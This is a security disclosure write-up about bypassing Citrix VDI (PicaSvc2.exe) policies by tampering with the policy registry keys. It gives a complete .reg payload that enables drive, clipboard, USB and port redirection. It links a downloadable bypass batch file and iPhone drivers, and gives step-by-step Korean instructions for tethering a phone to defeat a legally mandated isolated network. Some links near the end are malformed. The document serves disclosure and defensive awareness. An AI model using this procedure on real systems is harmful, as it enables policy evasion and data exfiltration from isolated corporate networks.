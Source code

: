 # Bypassing Citrix policy is not a vulnerability, but it can be a violation of the law.

## Note!!

As a result of discussions with Citrix using [VINCE](https://kb.cert.org/vince/comm/case/1022/) from cert.org, it was concluded that this is not a vulnerability(because os administrative privileges are required), so I can share this information without any concerns. For security reasons, I do not recommend using Xendesktop (VDI) in special environments such as logical network isolation or closed networks for security. If it must be used, please remove administrator privileges and make sure to install security-specific programs.

## Description

The Citrix VDI Agent(PicaSvc2.exe) seems to have a structure in which it receives policies from the Citrix management server, records them in the registry(HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\), and reads the policies from the registry to reflect the policies to the user's VDI. An attacker can bypass the Drive, Network, Clipboard, etc. security policies issued by the Citrix Policy Server through registry manipulation.  

As a result of legal regulations, if a closed or isolated network environment must be used, bypassing Citrix Policy and forcibly connecting VDI to the internet can potentially expose the internal network to the internet and leak sensitive information to external parties. In Korea, this is a clear violation of the law and requires a re-evaluation of network isolation solutions or environments.
  
## POC  
1. The attacker logs into VDI and executes a Bat file ([https://windshock.github.io/bypass.zip](https://windshock.github.io/bypass.zip)) that continuously modifies the registry. Then, they close the VDI connection.  
  

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User]

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\CdmPolicies]
"AutoConnectDrives"=dword:00000001
"AllowCdromDrives"=dword:00000001
"AllowFixedDrives"=dword:00000001
"AllowFloppyDrives"=dword:00000001
"AllowNetworkDrives"=dword:00000001
"AllowRemoveableDrives"=dword:00000001
"UseAsyncWrites"=dword:00000001
"ReadOnlyMappedDrive"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\IO]
"AutoConnectClientLptPorts"=dword:00000001
"TryMapToClientDriveLetter"=dword:00000001
"AllowFileTransfer"=dword:00000001
"AllowFileUpload"=dword:00000001
"AllowFileDownload"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\VCPolicies]
"AllowComPortRedirection"=dword:00000001
"AllowDriveRedir"=dword:00000001
"AllowLptPortRedirection"=dword:00000001
"AllowPrinterRedir"=dword:00000001
"AllowClipboardRedir"=dword:00000001
"ReadonlyClipboard"=dword:00000001
"AllowUSBRedir"=dword:00000001
"RestrictSessionClipboardWrite"=dword:00000000
"RestrictClientClipboardWrite"=dword:00000000

2. When the attacker logs back into VDI, PicaSvc2.exe communicates with the Citrix server to receive policies and records the corresponding policies in the registry.  
  
3. While PicaSvc2.exe records and reads the policies, the registry's policy values are tampered with by the Bat file previously executed by the attacker.  
  
4. PicaSv2.exe reads the policies recorded in the registry (which were manipulated by the attacker) and reflects the manipulated policies on Windows.

5. 접속하는 pc의 registry를 변경하면 네트워크가 가능한 하드웨어의 리다이렉트가 가능하다.

6. citrix 기본 정책으로 [usb class FFh](https://www.usb.org/defined-class-codes#anchor_BaseClassFFh) 은 허용되므로 iphone 레더링, 혹은 usb 형태의 wireless card를 이용하면 Usb Redirect가 허용되므로 망분리 환경에서 인터넷으로 네트워크를 연결할 수 있다.

7. iphone 테더링을 위해서는 itunes 설치 파일에서 추출한 드라이버 2개([apple network driver](https://windshock.github.io/applenetworkdriver.zip), [apple usb driver](https://windshock.github.io/appleusbdriver.zip))를 설치해야 한다.

8. citrix 접속 화면에서 iphone을 다시 redirect하면 이제 망분리 환경에서 인터넷 사용이 가능하다.

## Exploit
The attacker would have to be logged into the company's Citrix VDI(windows 10 os) after taking over the company's account.  
  
The VDI is in a state where network, printer, external hard write read, clipboard read and write, etc. are restricted.

## Impact
For companies that use VDI for logical network separation purposes, this vulnerability can lead to internal information leakage and intrusion of internal servers.

DiscoveryUse process  [monitor(https://learn.microsoft.com/en-us/sysintemonitor)](https//learn.microsoft.com/en-us/sysinternals/downloads/procmon))  to monitor the functionality of the citrix agent(PicaSvc2.exe).  
  
Check the registry that the citrix agent uses to store policy settings.  
  
View and manipulate the contents of that registry.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4MjQ1MTk5OTVdfQ==
-->